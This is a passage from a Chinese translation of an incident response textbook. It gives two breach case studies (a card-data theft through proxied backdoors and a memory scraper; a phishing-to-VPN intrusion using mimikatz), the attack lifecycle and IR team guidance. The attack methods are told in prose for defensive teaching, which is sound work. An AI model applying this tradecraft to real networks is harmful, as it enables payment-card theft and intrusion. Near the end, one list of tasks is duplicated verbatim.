    攻击者使用BKDOOR恶意软件以“DOMAIN\admin”域管理员帐户在JMPSRV上建立了一个RDP连接。不幸的是，仅需要来自域管理员帐户的单因素身份验证即可访问跳板服务器，并且攻击者先前已经破坏了多个域管理员帐户。在JMPSRV上进行身份验证后，攻击者将侦察工具传输到系统中，并开始在受限金融环境中进行侦察。攻击者执行了一个工具，旨在从JMPSRV内存中提取密码哈希，因为金融环境需要不同于攻击者已经攻破的凭据。密码哈希提取实用程序允许攻击者获得用于跨越受限金融环境的所有系统的本地管理员帐户的密码哈希。
    接下来的两个月里，攻击者一直对金融环境进行广泛的侦察，重点关注以下几个方面：
    
    - 处理或存储持卡人信息的系统
    - 直接连接互联网的系统
    
    攻击者通过枚举可用的网络共享、浏览感兴趣目录中的数据和窃取描述受限金融环境基础架构的文档来确定处理或存储持卡人数据的系统。其中一份被盗文档描绘了卡持人数据在环境中的流动方式，清晰地标识了感兴趣的系统。
    
    使用窃取的文档和通过侦察活动收集的信息，攻击者发现了处理或存储持卡人信息的系统的命名约定——PROC_FIN01、PROC_FIN02、STOR_FIN01、STOR_FIN02等等。有了这些信息，攻击者进行了额外的侦察，并发现了90个处理或存储持卡人数据的系统。攻击者还了解到，金融环境被配置为没有任何系统直接访问互联网。为了以半自动的方式从所有90个处理或存储持卡人数据的系统窃取持卡人数据，攻击者需要一种远程访问金融环境并从环境中提取数据的方法。
    
    攻击者在金融环境中的五个看似随机的系统上安装了BKDOOR恶意软件，并将每个实例配置为与监听JMPSRV上TCP端口88的PROXY恶意软件通信。在JMPSRV上，攻击者安装了PROXY恶意软件，并将其配置为将在TCP端口88上接收到的入站连接代理到主电子邮件交换器MAIL上运行的另一个PROXY实例。攻击者将流量从JMPSRV代理到MAIL，因为MAIL有直接的互联网访问，而JMPSRV没有。在MAIL上植入的PROXY实例被配置为将在TCP端口88上接收到的入站连接代理到攻击者控制的服务器上，该服务器通过TCP端口80（典型的HTTP（未加密）web流量端口）接收连接。在这种情况下，被代理的连接工作双向（即C2服务器->JMPSRV，JMPSRV->C2服务器）。以下图形显示了攻击者安装和配置的恶意软件的网络路径，以建立与受限金融环境之间的远程访问。
    
    

    
    一周后在金融环境中设置后门基础设施后，攻击者开始测试窃取持卡人数据的方法。攻击者将Sysinternals PsSuite工具集转移到PROC_FIN01和一个自定义二进制文件，该文件将运行进程的内存内容保存到指定的文件中。攻击者首先执行“pslist”来确定正在运行的进程，然后执行自定义二进制文件以转储多个进程的内存内容。然后，攻击者创建了一个多部分RAR存档文件，并将多部分RAR存档文件传输到环境之外。攻击者试图弄清楚哪些进程包含持卡人数据。
    
    尽管看似不可能，但未加密的持卡人数据经常存在于受限金融环境内的各种系统上——通常称为PCI环境，因为PCI数据安全标准（DSS）建立了这些环境必须遵守的标准。一些销售点（POS）终端和POS软件在加密或令牌化数据之前在运行进程内存中以纯文本形式处理持卡人数据的一小部分时间。当前的行业趋势是朝着端到端加密（E2EE）的方向发展。该方法直接在读卡器上对持卡人数据进行加密，并仅在最终目的地上进行解密。
    
    在获取多个进程的内存内容两天后，攻击者再次访问PROC_FIN01。这次，攻击者将第二个自定义二进制文件命名为cardharvest.exe，并将其传输到系统中。cardharvest.exe二进制文件的设计是手动执行，并将其注入到命令行或配置文件中指定的进程中。一旦注入到运行进程中，恶意软件将使用一个正则表达式搜索项来识别该进程内存空间中的二磁道数据，每15秒一次。恶意软件还为二磁道数据的每个实例创建哈希以防止收集重复数据。然后，恶意软件使用硬编码的静态密钥使用RC4算法加密唯一的二磁道数据实例，并将数据保存到本地文件中。
    
    作为一项测试，攻击者在PROC_FIN01上执行了大约15分钟的cardharvest.exe，然后在另外五个系统上每个系统执行了15分钟。在启动时，恶意软件会检查文件c:\windows\system32\temp\stopme.txt是否存在。如果存在该文件，恶意软件将退出，防止在同一系统上运行多个相同的恶意软件。接着，攻击者从JMPSRV上执行了一个脚本，将网络共享挂载到攻击者的六个测试系统中，将恶意软件输出文件移动到本地目录，并将该目录压缩为受密码保护的RAR文件。然后，攻击者使用BKDOOR恶意软件检索RAR文件。
    
    在接下来的三个月中，攻击者从所有90个金融系统中捕获了数百万个持卡人数据实例。攻击者每周或每两周通过在JMPSRV和C2服务器之间建立的C2连接隧道化RDP流量来访问环境，然后执行各种脚本与被攻陷的金融系统交互。这些脚本停止了所有被攻陷系统上的cardharvest.exe恶意软件，并通过将它们复制到JMPSRV上来收集输出文件，并创建一个包含收获输出文件的加密RAR文件。最后，攻击者向BKDOOR恶意软件发出“文件下载”命令，以检索RAR文件的副本。
    
    攻击者入侵网络后大约10个月，系统管理员发现名为MAIL的服务器正在与外国IP地址通过TCP端口80进行通信。在执行了一些初始的分析步骤后，系统管理员意识到该组织已被入侵，并启动了事件响应。事件响应包括我们的团队前往客户位置，与客户合作实施立即遏制计划，进行全面的事件调查，并执行根除事件以从环境中删除攻击者的所有痕迹。事件响应从开始到结束不到两个月。
    
    这个案例研究的事件响应具有多重挑战。调查团队必须：
    • 在环境中搜索所有系统的妥协标志
    • 分析Windows、Linux和Apple OS X系统
    • 分析来自10多个互联网出口的网络流量
    • 分析Windows（PE）和Linux（ELF）恶意软件
    • 理解复杂的金融系统和复杂的环境，以充分理解事件
    
    整治团队必须：
    • 为受限制的金融环境实施立即遏制计划
    • 与调查团队合作，制定更全面的整治工作方法
    • 在两天内在整个组织范围内实施全面的根除事件
    • 在影响金融系统的任何时间长度中解决现实世界的影响
    
    这项调查的难点在于要求调查人员全面考虑环境并充分调查妥协情况，以确定攻击者的操作方式。事件响应还要求整治团队在完全了解环境或攻击者的情况下制定严格的遏制计划，这总是具有挑战性的。金融系统和环境的复杂性要求我们的调查和整治团队与当地IT团队密切互动，以更好地了解环境，为我们收集数据，并帮助我们解释一些数据。
    
    #### 案例研究＃2：真实性证书
    
    5月中旬，攻击者向科技公司的四个不同业务单位的100名用户发送了带有恶意PDF文档的针对性网络钓鱼邮件。这100名用户中没有一个拥有域管理员级别的特权；然而，大多数用户都具有其系统的本地管理员权限。调查确定，这100名用户被网络钓鱼攻击的原因是与在特定行业会议上发言的个人有业务关系。攻击者可能研究了演讲人所在的每个业务单位，并将社会工程学邮件发送到可以从互联网上获取的所有相关电子邮件地址。
    其中一名收件人Bob无意中使用易受嵌入式漏洞攻击的Adobe Acrobat版本打开了恶意的PDF。调查确定，Bob的系统是唯一受网络钓鱼攻击影响的系统。攻击成功植入了常被称为GH0ST RAT的远程访问木马，同时打开了一个合法的PDF文件，以便Bob不会感到可疑。GH0ST后门立即开始向其C2服务器发送信标，通知攻击者BOBSYS01系统已成功被入侵。
    攻击者两天后访问了植入在BOBSYS01上的GH0ST RAT实例。攻击者立即认识到GH0ST RAT实例正在系统上以本地管理员权限运行。攻击者开始对系统进行侦察，首先检查本地用户文档。基于Bob文档的内容，攻击者确定Bob是一名工程师。攻击者还搜索了公共路径以查找知名VPN软件和证书信息，并确定Bob在家中工作，并通过VPN访问公司环境。该技术公司实施了较弱的双因素身份验证，要求机器证书以及用户名和密码。
    攻击者获取了本地管理员帐户的密码哈希，并成功破解了密码。然后，攻击者执行了mimikatz.exe工具，以提取Bob的密码和VPN机器证书。总之，攻击者获得了：
    • Bob的用户名
    • Bob的密码
    • Bob的机器证书
    • 本地管理员密码（环境中大多数系统的密码相同）
    
    攻击者现在有能力在伪装成合法用户帐户的情况下认证到公司的VPN，并使用本地管理员帐户访问几乎所有系统。因此，从这一点上开始，攻击者不再关心Bob的系统或其中的恶意软件——它被简单地丢弃了。攻击者没有移除这个恶意软件，很可能是因为它作为第二个访问方法，如果攻击者失去对VPN的访问权限，那么该恶意软件仍能被使用。
    
    不到一周后，攻击者成功地从名为HOME3的系统连接到VPN。攻击者的系统名称是在受攻击系统的取证分析过程中发现的。攻击者通过关闭窗口而不是注销来结束了RDP会话。这在受害系统的安全事件日志中引起了事件记录，其中包含了实际攻击者主机名和从VPN池中分配的IP地址。VPN日志分析发现了攻击者连接的IP地址。地理位置分析确定该IP地址注册在德克萨斯州的计算机网络中。这并不一定意味着攻击者实际上位于德克萨斯州；攻击者经常入侵受害组织之外的不相关系统，并将它们用作暂时的位置来执行他们的网络攻击。
    
    接下来的几周里，攻击者在环境中进行了侦察。攻击者的活动包括映射网络共享、执行递归目录列表、在关键系统上安装按键记录软件，以及使用被窃取的用户凭据通过公司的Outlook Web Access（OWA）实现远程访问他们的电子邮件。除普通的侦察数据外，在此时间范围内未发现攻击者窃取商业敏感数据的证据。
    大约两周后，攻击者开始从文件服务器SENS1的共享中访问业务关键数据。这个文件共享包含公司正在研发的一项新技术的敏感工程数据。失去这些数据将危及公司的市场优势。文件ACL已经设置为只允许参与项目的工程师访问，但是由于攻击者有本地管理员访问权限，他修改了ACL以提供自己的访问权限。请记住，大多数系统的本地管理员帐户密码是共享的。攻击者在接下来的四个星期里零星地从敏感文件共享中窃取数据。为了窃取数据，攻击者创建了一个包含感兴趣的文件的加密RAR文件，将RAR文件重命名为CAB文件，然后建立了一个FTP连接到攻击者控制的服务器并上传了数据。在窃取数据后，攻击者将删除RAR文件并运行Windows碎片整理实用程序，以试图防止取证分析师恢复数据。
    
    大约两周后，攻击者开始从SENS1服务器窃取业务关键数据，公司开始评估一种新的安全信息和事件管理（SIEM）实用程序，并将VPN日志作为SIEM分析的数据集之一。SIEM检测到Bob的用户帐户在多个系统上、使用多个IP地址在多个日期同时登录VPN。公司的安全人员调查了VPN流量，并立即禁用了Bob的帐户。此后，攻击者开始使用第二个用户的帐户Mary，攻击者也已经入侵了该帐户。攻击者可能入侵了多个用户帐户和机器证书，以确保持续访问环境。
    
    SIEM还在当天快速发现了Mary帐户的恶意使用。这导致组织启动了事件响应，并向我们寻求帮助。公司意识到他们没有完全了解受攻击的范围，需要在执行整治前进行更详细的调查是明智的。在调查过程中，我们发现攻击者用于连接VPN的IP地址之一是GH0ST RAT正在发送信标的相同IP地址。这使我们能够识别GH0ST RAT恶意软件，并将BOBSYS01包括在整治工作中。我们帮助公司执行了全面的根除事件，并在事件响应启动后的两周内从环境中删除了攻击者。
    
    整治事件两天后，SIEM检测到攻击者先前使用的IP地址之一，试图作为多个用户帐户访问OWA实例。尽管公司在整治事件期间更改了所有用户帐户密码，但安全团队很快意识到并非所有用户都成功更改了密码。安全团队启动了第二次企业范围的更改密码，禁用24小时内未更改密码的帐户。此举删除了攻击者访问OWA的能力。对于这家公司来说，幸运的是，攻击者所造成的唯一损害是在事件响应被启动并删除攻击者的访问权限之前阅读了来自五个不同工程师帐户的电子邮件。以下图表描述了此活动：
    
    

    
    这个案例很有趣，因为攻击者除了用于最初感染的 GH0ST 实例之外，没有植入后门。相反，攻击者依靠 VPN 来获得和维持对环境的访问。这使得调查工作更加困难，因为除了 BOBSYS01 外的所有恶意活动都是通过 VPN 执行的；调查团队必须寻找以恶意方式执行的看似合法的活动。例如，为了证明攻击者在特定文件服务器上执行了递归目录列表，调查团队必须完成以下操作之一：
    • 恢复攻击者执行的命令
    • 恢复攻击者保存数据的文件
    • 查找在已知恶意活动的时间范围内按顺序访问的大量文件（时间线分析）
    此外，本案例研究与前一个案例研究的调查方法之间的另一个主要差异在于，调查团队在第一个案例研究中寻找了整个环境中的受攻击证据，但在第二个案例研究中仅分析了特定子集的系统（遵循线索）。除了追踪最初的针对性网络钓鱼电子邮件的所有收件人之外，第二个案例研究中的调查团队通过分析 VPN 活动发现了需要分析哪些系统的证据。调查团队不需要在整个环境中寻找受攻击证据。这是因为攻击者仅在有限的时间内访问了环境，并且每次都以相同的方式访问了环境，这使得调查更加容易。然而，在第一个案例中，由于攻击者保留了访问权限的时间长、执行的活动量大，以及环境对任何后续恶意活动的敏感性，调查团队需要在环境中的所有系统上寻找受攻击迹象，以完全确定受到影响的范围。
    
    在这个案例研究中，解决方法与第一个案例的不同之处在于，该公司实施了多个立即的解决措施，每个解决措施都是针对攻击者所做的事情。如果攻击者除最初的 GH0ST 植入之外植入了任何后门，或者如果忽略了环境中的其他访问途径，那么解决方案将无法成功地消除攻击者对环境的访问权限。
    
    在我们结束这一章之前，我们想介绍一个概念，用来帮助解释攻击的各个阶段。我们把这个概念称为“攻击生命周期”，用它来展示大多数攻击的各个阶段。我们在规划灾后恢复时广泛使用这个概念；然而，我们觉得它应该出现在这一章中，以便我们可以使用您刚刚阅读的案例研究中的示例来说明攻击生命周期的每个阶段。
    
    ### 攻击生命周期的概念
    
    攻击生命周期由大多数入侵所共同具有的七个阶段组成。并不是所有七个阶段都总是攻击的一部分；然而，这个生命周期可以被适应到任何事件中。此外，攻击的阶段不总是按攻击生命周期中提出的顺序进行。攻击生命周期的概念包含在本章中，因为重要的是要考虑事件与生命周期的不同阶段的背景。从各个阶段的角度思考将有助于您更好地理解发现的活动与整个妥协相关的背景。此外，在规划灾后恢复时，应解决每个阶段的攻击者活动。攻击生命周期如下所示：
    
    

    
    攻击生命周期的七个阶段简要描述如下。我们还列出了每个阶段与您刚刚阅读的案例研究之间的关系。
    
    - **初始侵入。**攻击者在一个或多个系统上成功执行恶意代码。初始侵入通常是通过社会工程实现的，例如针对性网络钓鱼，或通过攻击一个面向互联网的系统的漏洞来实现的。社会工程攻击通常利用运行在终端用户系统上的易受攻击的第三方应用程序。
    • 案例研究#1 数据库服务器。
    • 案例研究#2 附件。
    - **建立立足点。**受到攻击的系统。这通常紧随初始侵入之后发生。攻击者通常通过安装持久性后门或将其他二进制文件或Shellcode下载到受害者系统来建立立足点。
    • 案例研究#1 攻击者在内部环境的一个系统上安装了后门恶意软件。
    • 案例研究#2 感染的PDF在BOBSYS01系统上安装了GH0ST RAT恶意软件。
    - **提升权限**。攻击者获得比初始访问权限更高的系统和数据访问权限。提升权限通常是通过密码哈希或令牌转储获得的，随后是密码破解或传递哈希攻击、按键/凭据日志记录、非特权用户漏洞、从存储在内存中的当前登录用户的密码中提取密码，或使用应用程序拥有的权限（例如通过Microsoft SQL的xp_cmdshell扩展存储过程执行命令）。此阶段还包括获得对不一定是管理帐户但具有访问攻击者需要的文件或资源的用户帐户的访问权限。
    • 案例研究#1 攻击者使用密码哈希转储和破解域管理员密码。
    • 案例研究#2 攻击者的初始立足点始于提升的权限（Bob的帐户），但攻击者破解了本地管理员密码，以确保对其他系统的提升权限。攻击者还通过入侵多个帐户来扩大访问权限，这些帐户可以用于通过VPN远程连接到环境。
    - **内部侦察。**攻击者探索受害者的环境，以更好地了解环境，关键人员的角色和责任，以及关键信息的存储位置。
      
        • 案例研究＃1和＃2 攻击者在两个案例中手动浏览了通常存储文档的本地用户目录。他们执行递归文件列表以确定敏感数据的非标准位置。攻击者还使用命令行工具枚举文件共享，以及执行网络和服务发现。
        
    
    > 攻击者的内部侦察经常被淡化或忽视。攻击者经常进行广泛的内部侦察，以了解受攻击的环境。
    > 
    - **横向移动。**攻击者使用已建立的立足点在受攻击的环境中从系统到系统移动。常见的横向移动方法包括访问网络共享，使用Windows计划任务程序执行程序，使用PsExec和radmin等远程访问工具，或使用远程桌面客户端，如RDP、Dameware和虚拟网络计算（VNC）访问系统的图形用户界面。
    • 案例研究＃1 攻击者使用了RDP连接，映射网络共享，并与后门交互。
    • 案例研究＃2 攻击者使用了RDP连接和映射网络共享。
    - **持久化。**攻击者确保持续访问受害者环境。维护持久性的常见方法是在面向互联网的系统上安装多个不相关的后门（包括反向后门和标准后门，如Webshell），获得VPN的访问权限，并在合法应用程序中实施后门代码。
    • 案例研究＃1 攻击者植入了两个主要后门家族的多个变体。每个后门家族的后门的操作方式都不同，因此即使从其中一个后门家族中找到了所有变体，也不太可能检测到另一个家族。
    • 案例研究＃2 攻击者危害了多个用户帐户及其机器证书。这使攻击者能够成功地作为多个用户帐户认证到VPN，以防发现其中一个受攻击的帐户，用户更改其密码或发生任何导致帐户不再工作的问题。
    - **攻击完成任务。**通常包括窃取数据或修改现有数据。一旦完成任务，大多数有针对性和持久性的攻击者不会离开环境，而是保持访问权限，以防他们被指示在目标环境中完成新任务。在事件中，攻击者多次重复攻击生命周期的多个阶段并不罕见。例如，进行信用卡/借记卡欺诈的攻击者需要在接近实时的时间内既窃取数据又操纵数据。
    • 案例研究#1 攻击者窃取了持卡人数据。
    • 案例研究#2 攻击者窃取了有关敏感项目的数据。
    
    ### 所以呢？
    
    网络攻击已经成为现实，是新的常态。如果你或你的组织可能遭受攻击，那么随着时间的推移，你们很可能会被攻击。最好的方法是做好准备，尽可能有效地处理每一个事件。因此，投资时间学习本书的实践和程序将在不久的将来为你服务。
    
    现在，我们已经引起了你的兴趣，你已经准备好深入研究这本书了，我们希望你开始像一个事件响应者一样思考。你认为这两个组织在处理事件时是否尽可能高效？你认为这些组织在数据泄露之前可以做些什么来最小化其影响？思考这些问题非常重要，因为作为事件响应者之一，你的工作之一就是思考这些问题以及在处理事件响应时会收到的无数其他问题。你必须提供能让组织有信心你会解决事件的响应。即使我们已经执行了数百次响应，我们仍然每次响应都会学到一些东西，并经常回顾事件的处理方式，认识到某些方面本可以更好地处理。事后诸葛亮！
    
    ### 问题
    
    1. 什么构成了事件？
    2. 谁应该定义什么构成了事件？
    3. 所有恶意软件都是特定于操作系统的吗？
    4. 在第一个案例研究中，受害公司犯了什么网络架构错误？
    5. 攻击生命周期有多少个阶段？
    6. 所有攻击都包括攻击生命周期的所有阶段吗？

## 第2章：IR管理手册

准备和应对计算机安全事件是具有挑战性的。随着技术和变化不断加快，似乎你跟不上。但是，在我们共同的30年中，我们在各种规模的组织中响应了数百起事件，学到了一些有趣的东西。关于本章，有两个具体的观点。首先，大多数事件响应的挑战是非技术性的。其次，调查计算机安全事件的核心原则与非技术性的调查没有区别。真正的挑战在于超越流行语和营销炒作，试图让你相信其他情况。

我们希望在本章中提供的信息将帮助您切入流行语，剁碎营销炒作，专注于构建坚实的事件响应程序的真正重要性。我们将涉及一些基础知识，例如计算机安全事件是什么，响应的目标是什么以及谁参与了这个过程。然后，我们将涵盖调查生命周期、关键信息跟踪和报告。我们发现，花时间思考这些领域的组织比那些没有这样做的组织执行事件响应活动更成功。

### 什么是计算机安全事件？

定义计算机安全事件可以确定团队的工作范围并提供重点。建立这个定义很重要，这样每个人都能理解团队的责任。如果你还没有，你应该为你的组织创建一个“计算机安全事件”的定义。没有一个单一的公认定义，但我们认为计算机安全事件是具有以下特征的任何事件：

- 有意造成伤害
- 由人执行
- 涉及计算资源

让我们简要讨论一下这些特征。前两个特征与许多常见的非技术事件（如纵火、盗窃和攻击）一致。如果没有意图造成伤害，很难称之为事件。请记住，可能没有立即的伤害。例如，使用漏洞扫描的意图是恶意使用结果，这并不会立即造成可检测的伤害，但是恶意的意图肯定存在。第三个特征，需要人的参与，排除了随机的系统故障或我们无法控制的因素，例如天气。防火墙由于停电而失效并不一定是一个事件，除非有人导致它或利用它并做了他们未被授权的事情。

最后一个特征是使事件成为计算机安全事件的地方：事件涉及计算资源。我们使用“计算资源”这个术语，因为有广泛的计算机技术适用于这个范畴。有时计算资源容易被忽视，例如备份介质、电话、打印机、建筑通行证、双因素令牌、摄像头、自动化设备、GPS设备、平板电脑、电视等。计算设备无处不在，有时我们忘记了它们存储了多少信息、控制了什么以及它们连接到了什么。

在进行初始响应之前，可能并不清楚某个事件是否是一起安全事件。可疑的事件应被视为潜在的安全事件，直到证明否则为止。相反，事件调查可能会发现证据表明，一场事件根本不是安全事件。
一些常见的计算机安全事件示例包括：
• 数据盗窃，包括敏感个人信息、电子邮件和文档
• 资金盗窃，包括银行访问、信用卡和电汇欺诈
• 敲诈
• 未经授权访问计算资源
• 恶意软件存在，包括远程访问工具和间谍软件
• 拥有非法或未经授权的材料
这些事件的影响范围可能从需要重建几台计算机，到需要花费大量资金进行纠正，再到组织的完全解散。您在事件发生之前、期间和之后做出的决策将直接影响影响的程度。

### 事件响应的目标是什么？

事件响应的主要目标是有效地从组织的计算环境中消除威胁，同时尽可能地减少损害并尽快恢复正常运作。这个目标通过两个主要活动来实现：
• 调查
• 确定初始攻击向量
• 确定使用的恶意软件和工具
• 确定哪些系统受到影响，以及如何受到影响
• 确定攻击者完成了什么（损害评估）
• 确定事件是否仍在进行中
• 建立事件的时间范围

- Remediate (纠正)
• 使用调查获得的信息，制定并实施纠正计划

### 谁参与了IR过程？

事件响应（IR）是一个多方面的学科。它需要来自组织中几个操作单位的资源，这些资源需要具备相关能力。如图2-1所示，人力资源人员、法律顾问、IT工作人员、公共关系、安全专业人士、公司安全官员、业务经理、帮助台工作人员和其他员工可能会涉及到对计算机安全事件的响应。

在IR事件中，大多数公司会组建一个团队来执行调查和纠正。一位有经验的事件经理最好是一个有能力在调查过程中指导其他业务单位的人来领导调查团队。最后一点的重要性不言而喻。事件经理必须能够及时地从组织中的任何资源获得信息或请求采取行动。这个人通常是CIO、CISO或他们直接指派的人代表他们工作。这个人成为所有调查活动的焦点，并管理大量生成的任务和请求的状态。一位有经验的IT工作人员领导纠正团队。这个人是所有纠正活动的焦点，包括根据调查小组的发现得出的纠正措施、被盗数据的敏感性评估以及将改善组织安全姿态的战略变化。


大多数组织采用分层和混合方法来配置调查和纠正团队。在调查过程中组建和专门的核心团队通常由高级IT人员组成，特别是那些具有日志审查、取证分析和恶意软件分类技能经验的人员。调查小组应该有能力迅速访问日志存储库、系统配置，如果有企业级IR平台可用，则有权搜索相关材料。这个核心小组中的个人可能还包括顾问，以填补运营空白。请注意，如果顾问的经验值得，那么他们领导战术调查可能是可以接受的。纠正团队应该有权指导组织进行必要的更改，以从事件中恢复过来。

在企业范围内进行搜索的授权可能是一件棘手的事情。地区和国家法律可能会限制搜索的范围，特别是在欧洲联盟（EU）。

按需组装的辅助团队通常不需要专门的调查或纠正人员。他们对项目的贡献通常是以任务为导向的，并根据事件经理的要求执行。辅助团队的常见成员包括：
• 来自内部和外部法律顾问的代表
• 行业合规官员（例如，PCI、HIPAA、FISMA和NERC）
• 台式机和服务器IT支持团队成员
• 网络基础设施团队成员
• 业务线管理人员
• 人力资源代表
• 公共关系工作人员
我们将在第3章讨论核心调查和纠正团队的构成；但是，请记住，必须事先建立关系和期望。在调查中了解法律顾问或合规人员的要求是最糟糕的时间。如果您花时间确定适用于您行业的所有报告和流程要求，那么您会更好。

从合规角度来看，您应该熟悉什么？如果您尚未与内部合规人员见面，他们很可能是您的总法律顾问，请花一天时间聊一下事件的生命周期。了解哪些信息系统属于范围内，以及现有的报告要求。

在某些情况下，范围问题已通过其他方式解决（例如PCI DSS评估）。了解应通知潜在入侵或违规行为的人员以及治理所定义的通知门槛。最重要的是，确定内部负责所有外部沟通的一方，并确保您的团队有能力向这些决策者坦率地发表意见。

您的内部法律顾问应该帮助确定他们感到舒适的报告门槛。各种参数（从事件识别的时间，数据曝光的可能性，潜在曝光的范围）可能与外部方所述的不匹配。

> 一个臭名昭著的行业是支付卡行业，它在调查中施加流程和标准。一旦卡品牌介入调查，你的恢复次于保护他们的品牌和激励你的组织合规PCI DSS的目标。
> 

### 寻找IR人才

我们为一家为面临严峻信息安全问题的组织提供咨询服务的公司工作。鉴于这一点，您可能会期望我们全力支持雇用顾问来帮助解决事件。这有点像询问保时捷代表您是否真的需要他们的最新型号。对于您的公司是否应使用或完全依赖咨询公司的服务，我们的诚实答案取决于许多因素:
• 维护IR团队的成本，除非运营节奏高且可证明的结果得到了产生，否则许多公司无法负担或证明维护经验丰富的IR人员的开销。
• 外包文化许多组织外包业务功能，包括IT服务。令我们惊讶的是，许多财富50强公司中，绝大多数IT服务都是外包的。我们将在后面的章节中讨论这一趋势及其对成功IR的影响。
• 受监管或认证机构的强制执行外部方可以决定您如何应对，例如PCI安全标准委员会。如果您的公司与支付卡行业有关或参与其中，委员会可能会要求“认可”的公司进行调查。
• 调查经验不足雇用经验丰富的咨询公司的服务可能是引导您自己的IR团队的最佳方式。调查是一项高度体验性的技能，随着时间的推移而得到改善。
• 内部专业化不足或有限调查，特别是入侵调查，需要广泛的技能，从熟悉操作系统、应用程序和网络的内部工作方式，到恶意软件分析和纠正过程。

除了公司几乎没有内部IT能力的情况外，我们发现那些自己组建IR小组的组织（无论多么不正式），即使IR小组仅设置为处理调查的初始阶段而另行寻求外部协助，也有更好的机会进行成功的调查和及时的解决。这一点是正确的，即使IR小组仅设置为处理调查的初始阶段而另行寻求外部协助。

> 当雇用外部专业知识协助调查时，通常最好通过顾问建立合同，以使通信得到合理的保护，免于被披露。
> 

#### 如何招聘IR人才

对于大多数经理来说，雇用好的人是一项困难的任务。如果您已经有了一个团队并在成长，那么识别优秀人才可能会更容易：您有人能够评估申请人的技能和个性。此外，已经建立了一个先例，您已经熟悉需要填补的角色，并且已经考虑到每个理想的候选人。如果您处于常见的信息安全专业人士所面临的情况中，即负责创建一个小型IR团队，那么该怎么办？我们建议采用两个步骤的过程：找到候选人，然后评估他们是否符合您组织的要求。

**找到候选人**

从其他IR团队中招募个人是一个明显的选择。在LinkedIn等网站上发布开放职位是一种好的但被动的方法，可以接触到潜在的候选人。然而，积极地针对技术群体、相关的社交网络网站和留言板将更快地产生结果。许多不同技能水平的IR和取证专业人员潜伏在留言板上，例如Forensic Focus。

如果您有资源与当地大学的职业办公室联系，可以从那些具有声誉良好的计算机科学、工程或计算机取证项目的人中招募入门级分析师和团队成员。从我们的经验来看，从计算机科学或工程的四年制学位开始并具有计算机取证辅修或证书的项目可以产生最全面的候选人，而不是那些试图在一个专业中提供所有东西的项目。提供最大效益的基本技能与大多数科学领域相同：观察、沟通、分类、测量、推断和预测。拥有这些技能的个人通常是最好的IR小组成员。如果您可以找到一个侧重于基本科学或工程技能并提供取证相关主题的研讨会或选修课程的本地大学，那么您就处于一个良好的状态。

评估适当的匹配：能力和素质 您的事件响应团队需要什么能力？通常，您需要一个充满多任务处理能力的团队——具有在调查的不同阶段之间移动的知识和能力的人。从我们自己的咨询团队中来看，我们可以提出许多相关的技能集。如果您正在招聘有经验的候选人，您需要考虑具有以下资格的人：
• 运行涉及技术的调查的经验 这是一种广泛的能力，包括信息和线索管理，与其他业务部门联络的能力，证据和数据管理以及基本技术技能。
• 进行计算机取证检查的经验 这包括了解操作系统基础知识，了解操作系统和应用程序工件，日志文件分析以及编写连贯文件的能力。
• 网络流量分析的经验 这包括有关网络流量和协议分析的经验以及将信息应用于检测系统的技术。
• 与您组织相关的行业应用程序的知识 大多数公司都有专门的信息系统，这些系统在特定平台上处理数据（例如，主机托管的金融交易）。
• 企业IT知识 在缺乏企业IR平台的情况下，最好的管理员是可以为其控制的每个服务器编写两行脚本的管理员。
• 恶意代码分析知识 恶意软件分析是团队必备的技能；但是，大多数IR团队可以通过在沙箱中进行基本的自动化分析来进行。
如果您有三个职位空缺，请聘请具有基本分诊技能的多任务处理程序。

我们在IR团队成员中寻找哪些素质？在面试中，我们尝试发现潜在候选人是否具有以下特征：
• 高度分析性
• 良好的沟通者
• 注意细节
• 结构化和组织化的解决问题方法
• 可证明的问题解决成功

我们经常被问及支配IR和计算机取证领域的各种行业认证的适用性或相关性。一般来说，需要定期重新测试和证明继续教育的认证是该人积极关注该领域的良好指示。当申请人的简历经验不足时，它可以帮助我们确定在面试期间应详细讨论其背景的领域。此外，如果可在线获取认证的论文，它们可以指示应用程序的沟通技巧和写作风格。但是，它似乎并不是申请人真正能力的一致指标。

事实上，当申请人的雇佣历史良好时，我们发现他们的知识深度和他们追求的认证数量之间存在反比关系。供应商的认证通常与招聘过程无关，因为它们证明了特定工具技能，而不是良好的理论和程序技能。

### 事件响应流程

事件响应流程包括实现事件响应目标所需的所有活动。整个过程和活动应该被您的响应团队以及整个组织的利益相关者充分记录和理解。该过程包括三个主要活动，我们发现为每个活动都配备专门的人员最为理想：
• 初始响应
• 调查
• 纠正

初始响应通常是整个IR过程的开始活动。一旦团队确认存在事件并执行了初始收集和响应步骤，调查和纠正工作通常同时进行。调查小组的目的仅是执行调查任务。在调查期间，该小组不断生成我们称之为“线索”的列表。线索是有关被盗数据、网络指标、潜在主体的身份或导致妥协或安全事件的问题的可操作项。这些项目对于纠正小组立即有用，其自身的流程需要大量时间来协调和计划。在许多情况下，您的团队所见到的活动可能会迫使您立即采取行动以阻止入侵的进一步进展。

#### 初始响应

在这一步中，主要目标包括组建响应团队、审查基于网络和其他可读数据、确定事件类型以及评估潜在影响。目标是收集足够的初步信息，以允许团队确定适当的响应。

通常，此步骤不涉及直接从受影响系统收集数据。此阶段检查的数据通常涉及网络、日志和其他历史和背景证据。这些信息将为您提供必要的上下文，以帮助决定适当的响应。例如，如果在首席财务官的笔记本电脑上发现了一种银行木马程序，您的响应可能与在接待员的系统上发现的响应大不相同。此外，如果需要进行全面调查，此信息将是初始线索的一部分。您可能在此步骤中执行的一些常见任务是：

- 面试报告事件的人员。收集他们可以提供的所有相关细节。
• 面试可能对事件技术细节有了解的IT工作人员。
• 面试可能对业务事件有所了解的业务部门人员，以提供事件的背景。
• 检查网络和安全日志，识别支持事件已发生的数据。
• 记录从您的来源收集到的所有信息。

##### 事件响应和计算机取证

例如，如果在首席财务官的笔记本电脑上发现了一种银行木马程序，您的响应可能与在接待员的系统上发现的响应大不相同。此外，如果需要进行全面调查，此信息将是初始线索的一部分。您可能在此步骤中执行的一些常见任务是：
• 面试报告事件的人员。收集他们可以提供的所有相关细节。
• 面试可能对事件技术细节有了解的IT工作人员。
• 面试可能对业务事件有所了解的业务部门人员，以提供事件的背景。
• 检查网络和安全日志，识别支持事件已发生的数据。
• 记录从您的来源收集到的所有信息。

#### 调查
